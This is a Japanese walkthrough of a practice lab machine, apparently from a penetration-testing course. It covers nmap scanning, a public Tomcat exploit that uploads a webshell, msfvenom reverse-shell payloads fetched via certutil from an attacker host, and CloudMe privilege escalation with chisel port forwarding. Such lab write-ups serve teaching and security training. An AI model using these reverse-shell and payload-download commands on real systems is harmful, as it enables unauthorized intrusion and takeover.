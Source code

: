 machine3で学べることは以下のことです。

- public exploitの利用
- ポートフォワーディング
- インストールされているサービスを悪用した権限昇格
- おすすめ視聴タイミング: テキストを読み終わった後、もしくはいつでも

# 攻略の流れ
#### Enumeration
nmapを用いてportscanを行います。

今回は-Pnオプションをつけていますが、これはNmapのHost discoveryという機能をスキップするものです。
```
$ nmap -Pn machine3  
```
次に開いていることがわかったポートに対してより詳細なスキャンを行います。

-sCと-sVオプションの他に、先ほども使用した-Pnオプションと-oオプションを使っています。

-oオプションを用いることによってスキャン結果をファイルに出力することができ、後から簡単に見返すことができます。
```
$ nmap -p135,139,445,8009,8080 -sC -sV -Pn -o scan/nmap-first machine3
```
nmapの結果とブラウザでアクセスした結果から8080でApache Tomcat 8.5.21が動作していることがわかります。

searchsploitを使ってtomcatに関するpublic exploitがないかを調査します。
```
$ searchsploit tomcat 8.5.21
```
Initial Shell  
2つのexploitが見つかりましたが、pythonスクリプトである42966.pyを見てみます。
```
$ searchsploit -m 42966.py  
$ less 42966.py
```
exploitの内容を読んで概要を理解し、使い方にしたがってexploitを実行するとターゲットが脆弱であることがわかります。

-pwnオプションを付与してexploitを実行するとwebshellをアップロードし、それにアクセスすることでコマンドを実行できるようになります。

コマンドが実行できるようになったので、リバースシェルを獲得します。

今回はmsfvenomを使ってバイナリを作成し、それを実行する手法を取ります。
```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=LHOST lport=LPORT -f exe -o shell.exe  
```
pythonでhttpサーバを建てます。
```
$ python3 -m http.server 80 
```
certutilコマンドでファイルをダウンロードします。
```
$ certutil -urlcache -f http://LHOST/shell.exe C:\windows\temp\shell.exe
```
ncコマンドでシェルを待ち受けたら、shell.exeを実行します。
```
$ C:\windows\temp\shell.exe
```
### Enumeration(権限昇格)
インストールされているアプリを確認するため、C:\Program Files (x86)を確認すると、CloudMeというアプリが見つかります。

これについて調べると、public exploitが見つかります。
```
$ searchsploit cloudme
```
Privilege Escalation
バージョン情報などはわかりませんが、ターゲットマシン上のタイムスタンプとexploitの作成日時を比較して刺さりそうなexploitを見つけます。
```
$ searchsploit -m 48389.py
```
exploitの内容を読むと、シェルコードを生成する必要があることがわかります。

シェルコードを生成するコマンドの例はexploitに書いてあるので、その一部を修正して実行します。
```
$ msfvenom -p windows/shell_reverse_tcp lhost=[LOST] lport=[LPORT] -b '\x00\x0A\x0D' -f python -v payload
```  
また、ターゲットとなるポートは8888ですが、これは内部にしか公開されていないためポートホワーディングを行います。
```
$ netstat -ano | findstr 8888
```
今回はchiselというツールを使っていますが、他にも様々なツールがあります。

Kali上で
```
$ chisel_linux server --reverse --port 8000
```
Windows上で
```
$ chisel_windows_intel.exe client LHOST:8000 R:8888:127.0.0.1:8888
```
これによってKaliの8888にアクセスするとターゲットの8888に転送されるようになりました。

ncコマンドでシェルを待ち受け、exploitを実行するとsystemシェルが獲得できます。
```
$ python3 48389.py
```